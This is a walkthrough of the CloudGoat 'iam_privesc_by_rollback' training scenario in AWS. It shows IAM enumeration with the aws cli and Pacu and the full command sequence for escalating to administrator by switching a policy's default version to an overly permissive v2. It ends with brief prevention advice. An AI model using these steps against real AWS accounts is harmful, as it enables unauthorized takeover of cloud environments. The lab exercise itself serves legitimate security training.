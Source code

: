 ```yaml
---
title: 'iam_privesc_by_rollback'
date: 2018-11-28
weight: 3
tags: ["aws", "cloud", "cloudgoat", "walkthrough", "ctf"]
categories: ["cloudgoat"]
aliases: ["/iam-privesc-by-rollback"]
author: "Travis"
summary: "Cloud Goat IAM priviledge escalation by rollback scenario walkthrough"
---
```

---

According to the official documentation for this scenario ([here](https://github.com/RhinoSecurityLabs/cloudgoat/tree/master/scenarios/iam_privesc_by_rollback)) the overall goal is to "Acquire full admin privileges."

We can create the challenge by running

```bash
python3 cloudgoat.py create iam_privesc_by_rollback
```

The build process will begin and when it finishes we will be provided with a set of credentials for the Raynor user account.

---

### Raynor
In the real world, we probably wouldn't just be handed these credentials. However, people make mistakes and credentials are often accidentally exposed. Let's start doing basic enumeration and see if we can determine what things we have access to. To do this we'll run the following set of commands just to poke at a few of the more common services:

```bash
aws --profile solus s3 ls
aws --profile solus ec2 describe-instances
aws --profile solus iam list-roles
aws --profile solus lambda list-functions
```


All of the api calls fail with the exeption being iam list-roles. We can clean the output up by using jq:

```bash
aws --profile raynor iam list-roles | jq '.Roles[].RoleName'
```

This command will produce an output similar to the one below.

![jq-list-roles.png](images/jq-list-roles.png "img-fluid")

The key takeaway here is that we have access to a user account with some level of IAM permissions. How much access do we have? One way to find out is by leveraging Pacu to bruteforce those permissions for us. The other option is to make iam calls one at a time to determine where our limits may exist. For this example we'll leverage Pacu and run the iam__enum_users_roles_policies_groups module.

```python
run iam__enum_users_roles_policies_groups
```

Once the module finishes its execution we see that it successfully enumeated various aspects of the account.

![iam-enum-results.png](images/iam-enum-results.png "img-fluid")

We can run the data `IAM command` to see information associated with the enumeration. At first glance of the policies it appears there is a specific policy listed for our user account: `cg-raynor-policy`

```json
"Policies": [
 {
  "PolicyName": "cg-raynor-policy",
  "PolicyId": "ANPA5X73I5MBNC3PRT6CO",
  "Arn": "arn:aws:iam::121212121212:policy/cg-raynor-policy",
  "Path": "/",
  "DefaultVersionId": "v1",
  "AttachmentCount": 1,
  "IsAttachable": true,
  "CreateDate": "Mon, 25 May 2020 14:24:46",
  "UpdateDate": "Mon, 25 May 2020 14:24:48"
 }
],
```

Looking at the details above we can also tell that the policy is curently attached `AttachmentCount: 1` and the version being used is v1 `DefaultVersionId: v1`. If we wanted to leverage the aws cli in place of Pacu we could run the command below. The command is filtering to show only those policies which are currently attached to a resource.

```bash
aws --profile raynor iam list-policies --only-attached --scope Local

{
 "Policies": [
  {
   "PolicyName": "cg-raynor-policy",
   "PolicyId": "ANPA5X73I5MBNC3PRT6CO",
   "Arn": "arn:aws:iam::121212121212:policy/cg-raynor-policy",
   "Path": "/",
   "DefaultVersionId": "v1",
   "AttachmentCount": 1,
   "PermissionsBoundaryUsageCount": 0,
   "IsAttachable": true,
   "CreateDate": "2020-05-25T14:24:46Z",
   "UpdateDate": "2020-05-25T14:24:48Z"
  }
 ]
}
```

The next question we have to answer is the policy attached to our user account? We can do that by quering the list-attached-user-policies endpoint and our user name raynor. An example command and output is below.

```bash
aws --profile raynor iam list-attached-user-policies --user-name raynor

{
 "AttachedPolicies": [
  {
   "PolicyName": "cg-raynor-policy",
   "PolicyArn": "arn:aws:iam::121212121212:policy/cg-raynor-policy"
  }
 ]
}
```

---

### Versions

Good news, it appears the raynor policy is currently associated with the raynor user account. Lets see if we can learn more about what we are allowed to do and what we are not allowed to do. We can accomplish this by making a call to the `get-policy-version` endpoint as seen below.

```bash
aws --profile raynor iam get-policy-version --policy-arn arn:aws:iam::121212121212:policy/cg-raynor-policy --version-id v1
{
 "PolicyVersion": {
  "Document": {
   "Version": "2012-10-17",
   "Statement": [
    {
     "Sid": "IAMPrivilegeEscalationByRollback",
     "Action": [
      "iam:Get*",
      "iam:List*",
      "iam:SetDefaultPolicyVersion"
     ],
     "Effect": "Allow",
     "Resource": "*"
    }
   ]
  },
  "VersionId": "v1",
  "IsDefaultVersion": true,
  "CreateDate": "2020-05-25T14:24:46Z"
 }
}
```


For the call to work we specified the policy arn as well as the version currently applied. From the output it looks like we can make calls to iam resources if they are a Get, List, or SetDefaultPolicyVersion. That last one is interesting. Perhaps our currently policy has more than one version? Let's check to see if version 2 of our policy exists. The results are below:

```bash
aws --profile raynor iam get-policy-version --policy-arn arn:aws:iam::121212121212:policy/cg-raynor-policy --version-id v2

{
 "PolicyVersion": {
  "Document": {
   "Version": "2012-10-17",
   "Statement": [
    {
     "Action": "*",
     "Effect": "Allow",
     "Resource": "*"
    }
   ]
  },
  "VersionId": "v2",
  "IsDefaultVersion": false,
  "CreateDate": "2020-05-25T14:24:48Z"
 }
}
```

Interesting, a version 2 of the policy does exist, and it gives full admin access to the entire account. Our current policy provides us with the ability to set the default version of a policy. If we were to change the default version of the policy currently applied to our user account from 1 to 2 we could escalate our privledges to full admin.

The command below will accomplish this.

```bash
aws --profile raynor iam set-default-policy-version --policy arn:aws:iam::121212121212:policy/cg-raynor-policy --version-id v2
```

If successful there will be no response. We can validate the command was successful by re-running the `list-policies` command:

```bash
aws --profile raynor iam list-policies --only-attached --scope Local

{
 "Policies": [
  {
   "PolicyName": "cg-raynor-policy",
   "PolicyId": "ANPA5X73I5MBNC3PRT6CO",
   "Arn": "arn:aws:iam::121212121212:policy/cg-raynor-policy",
   "Path": "/",
   "DefaultVersionId": "v2",
   "AttachmentCount": 1,
   "PermissionsBoundaryUsageCount": 0,
   "IsAttachable": true,
   "CreateDate": "2020-05-25T14:24:46Z",
   "UpdateDate": "2020-05-25T18:28:50Z"
  }
 ]
}
```

Notice the default version has changed from `v1` to `v2`. At this point we have full administrative rights to this aws account.

---

### Prevention
So, how do we prevent this. Where did the owner of this account go wrong? There are a few places where this could have be stopped. Lets dive into them.

1. The most important is to not expose credentials. If we were not able to leverage raynors credentials we would not have been able to authenticate and further escalate privileges.
2. Limit what users can do. The policy associated with raynor allowed for too much access. I imagine in the real world a user with this set of actions at there disposal would likely have much more persmissions within the account.